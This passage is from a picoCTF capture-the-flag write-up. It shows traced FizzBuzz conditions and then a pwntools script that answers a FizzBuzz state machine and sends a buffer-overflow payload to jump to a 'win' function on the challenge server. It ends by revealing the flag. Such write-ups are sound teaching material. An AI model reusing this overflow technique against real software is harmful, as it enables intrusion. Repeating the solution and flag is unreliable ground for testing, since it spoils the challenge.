We convert the input list into a string then add it to the `finale` array. The output is like so:
```
... "FizzBuzz(16, ['Equals(16)'])", "FizzBuzz(14, ['NotEquals(14)'])", "FizzBuzz(10, ['Equals(10)'])", "FizzBuzz(13, ['NotEquals(13)'])"], ["FizzBuzz(17, ['NotEquals(17)'])",
"FizzBuzz(2, ['Equals(2)'])", "FizzBuzz(5, ['NotEquals(5)'])"], ["FizzBuzz(6, ['NotEquals(6)'])", "FizzBuzz(3, ['Equals(3)'])", "FizzBuzz(15, ['NotEquals(15)'])", "FizzBuzz(17, ['Equals(17)'])", "FizzBuzz(18, ['NotEquals(18)'])", "FizzBuzz(13, ['Equals(13)'])", "FizzBuzz(18, ['NotEquals(18)'])", "FizzBuzz(5, ['Equals(5)'])",
"FizzBuzz(11, ['NotEquals(11)'])", "FizzBuzz(7, ['Equals(7)'])", "FizzBuzz(13, ['NotEquals(13)'])", "FizzBuzz(3, ['Equals(3)'])", "FizzBuzz(9, ['NotEquals(9)'])", "FizzBuzz(7, ['Equals(7)'])", "FizzBuzz(18, ['NotEquals(18)'])", "FizzBuzz(7, ['Equals(7)'])", "FizzBuzz(6, ['NotEquals(6)'])", "FizzBuzz(6, ['Equals(6)'])", "FizzBuzz(2, ['NotEquals(2)'])", "FizzBuzz(4, ['Equals(4)'])", "FizzBuzz(8, ['NotEquals(8)'])", "FizzBuzz(12, ['Equals(12)'])", "FizzBuzz(6, ['NotEquals(6)'])", "FizzBuzz(13, ['Equals(13)'])", "FizzBuzz(4, ['NotEquals(4)'])", "FizzBuzz(5, ['Equals(5)'])", "FizzBuzz(18, ['NotEquals(18)'])", "FizzBuzz(7, ['Equals(7)'])", "FizzBuzz(4, ['NotEquals(4)'])", "FizzBuzz(13, ['Equals(13)'])", "FizzBuzz(12, ['NotEquals(12)'])", "FizzBuzz(2, ['Equals(2)'])", "FizzBuzz(17, ['NotEquals(17)'])", "FizzBuzz(12, ['Equals(12)'])", "FizzBuzz(15, ['NotEquals(15)'])", "FizzBuzz(11, ['Equals(11)'])", "FizzBuzz(16, ['NotEquals(16)'])", "FizzBuzz(9, ['Equals(9)'])", "FizzBuzz(4, ['NotEquals(4)'])", "FizzBuzz(14, ['Equals(14)'])", "FizzBuzz(7, ['NotEquals(7)'])", "FizzBuzz(4, ['Equals(4)'])", "FizzBuzz(7, ['NotEquals(7)'])", "FizzBuzz(5, ['Equals(5)'])", "FizzBuzz(2, ['NotEquals(2)'])"],
["FizzBuzz(46, ['NotEquals(1)', 'NotEquals(2)', 'NotEquals(3)', 'NotEquals(4)', 'Equals(5)'])"]]
buzz_fizz_trace.py> Finished!
```

The output is an 2-dimensional array of `FizzBuzz(n, ['Equals(y)', 'NotEquals(x)' ...])` (note that the conditions are a list of strings).
I also saved it to a file so that it can be read later.

## Writing the exploit
Now that we know what input to provide to get our buffer overflow, we need to know what to do once we get control. Specifically, there is a function (`0x8048656`)
that will print out the flag. I iterated over the 2-dimensional array to get the `FizzBuzz` and its list of conditions, then wrote functions that provide the appropriate input.

These functions are called using `eval` (for simplicity). The functions are: `FizzBuzz`, `Equals`, `NotEquals`.

```python
from pwn import *

win = 0x8048656
c = remote("mercury.picoctf.net:28132")
ops = []

with open("./ops.txt") as f: # this is the file where I saved the output
    ops = eval(f.read())

def NotEquals(n):
    return lambda x: x != n
def Equals(n):
    return lambda x: x == n

# get the appropriate input to provide,
# based on Equals and NotEquals conditions
def get(eqs):
    eqs = list(eqs)
    # lame method of finding a number that fits
    for i in range(1, 0x100):
        if all(map(lambda x: x(i), eqs)):
            return i

def FizzBuzz(a, l):
    eqs = map(eval, l)
    n = get(eqs)
    for i in range(1, n):
        if i % 15 == 0:
            c.sendline("fizzbuzz")
        elif i % 5 == 0:
            c.sendline("buzz")
        elif i % 3 == 0:
            c.sendline("fizz")
        else:
            c.sendline(str(i))
    if n != a:
        c.sendline("NANI") # exiting early

t = len(ops)
for op1 in ops:
    for op in op1:
        eval(op)

c.send(cyclic(9))
#          padding        saved rbp         win
c.sendline(cyclic(0x63) + p32(0xfffffff0) + p32(win)) # buffer overflow

c.interactive()
```

Flag is `picoCTF{y0u_found_m3}`